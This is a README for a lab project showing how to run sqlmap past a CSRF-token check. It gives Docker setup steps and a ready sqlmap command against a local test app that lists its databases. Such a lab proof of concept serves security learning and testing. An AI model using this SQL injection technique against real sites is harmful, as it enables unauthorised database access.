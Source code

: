 # CSRF SQLMap Bypass 💉

### Setup

```
git clone https://github.com/itasahobby/CSRF_SQLMap_Bypass.git
docker-compose -f .\docker\docker-compose.yaml up --build
```

### PoC

Run the following sqlmap command:
```
sqlmap -u "http://localhost/index.php?action=0" --method GET --preprocess ./poc/preprocess.py --batch --dbs
```

There is a more in depth writeup in my [blog](https://itasahobby.gitlab.io/posts/sqlmapcsrf/).
### Mentions

Idea inspired by [**Dreg**](https://github.com/David-Reguera-Garcia-Dreg/) 
